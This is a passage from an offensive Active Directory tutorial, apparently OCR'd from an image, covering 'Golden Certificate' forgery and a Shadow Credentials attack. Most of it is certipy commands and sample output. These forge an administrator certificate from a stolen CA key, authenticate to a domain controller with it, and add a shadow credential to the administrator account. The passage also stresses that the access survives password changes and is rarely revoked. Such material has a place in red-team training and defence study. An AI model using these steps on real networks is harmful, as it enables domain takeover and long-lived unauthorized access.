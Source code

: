 ```bash
# Forge certificate for any user
certipy forge -ca-pfx 'CORP-DC01-CA.pfx' \
    -upn 'administrator@corp.local' \
    -subject 'CN=Administrator,CN=Users,DC=corp,DC=local'

# Output:
# [*] Saved forged certificate to 'administrator_forged.pfx'
```

---

#### Using Forged Certificate:

```bash
# Authenticate (same as legitimate cert)
certipy auth -pfx administrator_forged.pfx -dc-ip 192.168.1.10

# Obtain TGT and hash
# Use for access
```

---

**Persistence Advantage:**

```
Golden Ticket:
- Valid for 10 hours (default)
- Detected by krbtgt password rotation

Golden Certificate:
- Valid for 1-10 years (template validity)
- Only revoked by certificate revocation (rarely done)
- Survives password changes, krbtgt rotation
```

---

### Step 24: Shadow Credentials Attack

**Shadow Credentials = Add msDS-KeyCredentialLink attribute to user object**

**Impact:** Gain certificate-based authentication without requesting from CA

**Prerequisites:**
- WriteDacl or GenericWrite on target user
- Windows Server 2016+ (Key Trust support)

---

#### Exploitation:

**Add Shadow Credential:**

```bash
certipy shadow auto -u 'user@corp.local' -p 'Password123' \
    -target 'administrator' \
    -dc-ip 192.168.1.10

# Output:
# [*] Adding shadow credential to 'administrator'
# [*] Saved certificate to 'administrator_shadow.pfx'
```

---
